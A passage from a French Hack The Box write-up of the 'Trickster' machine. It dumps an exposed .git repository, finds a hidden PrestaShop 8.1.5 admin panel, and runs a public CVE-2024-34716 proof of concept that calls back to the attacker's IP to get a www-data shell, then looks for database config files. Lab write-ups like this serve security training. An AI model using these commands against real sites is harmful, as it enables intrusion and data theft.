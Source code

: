 ![.git directory content](/images/HTB-Trickster/git_content.png)

Nous utilisons [git-dumper](https://github.com/arthaud/git-dumper) pour télécharger le dépôt sur notre machine locale.

```
git-dumper http://shop.trickster.htb/.git/ git_trickster
```

![.git directory download](/images/HTB-Trickster/git_dumper.png)

Nous obtenons deux répertoires: `.git` (celui que nous connaissons déjà) et `admin634ewutrx1jgitlooaj`. Nous vérifions également les commits avec `git log` et n'en trouvons qu'un seul, concernant la mise à jour d'un panneau d'administration par `adam@tricksterhtb`.

![git log command](/images/HTB-Trickster/adam_commit.png)

Sur `http://shop.trckster.htb/admin634ewutrx1jgitlooaj/` il y a une page de login avec `PrestSahop 8.1.5`.

![prestashop 8.1.5](/images/HTB-Trickster/prestashop_8.1.5.png)

## Accès initial

Après des recherches sur l'exploitation de cette version, nous trouvons [cet](https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/) article  à propos du `CVE-2024-34716` et un PoC est disponible sur [ce](https://github.com/aelmokhtar/CVE-2024-34716) dépôt Github.

L'exploit nécessite un serveur web sur le port 5000.

```
python3 -m http.server 5000
```

![web server trickster exploit](/images/HTB-Trickster/web_server_trickster.png)

Nous pouvons ensuite l'exécuter.

```
python3 exploit.py --url http://shop.trickster.htb --email adam@trickster.htb --local-ip YOUR_IP --admin-path admin634ewutrx1jgitlooaj
```

Nous obtenons un shell sous le nom de `www-data`.

![foothold](/images/HTB-Trickster/foothold.png)

Sur [ce site](https://classydevs.com/prestashop-database-config-file/) nous apprenons le fichier de configuration de la base de données Prestashop se trouve soit dans `votre-siteweb/config/settings.inc.php` (pour v1.5-1.6) soit dans `votre-siteweb/app/config/parameters.php` (pour v1.7).

Dans `/var/www/prestashop/config/config.inc.php` nous trouvons une ligne pointant vers `parameters.php`.

![configuration file](/images/HTB-Trickster/config_file.png)
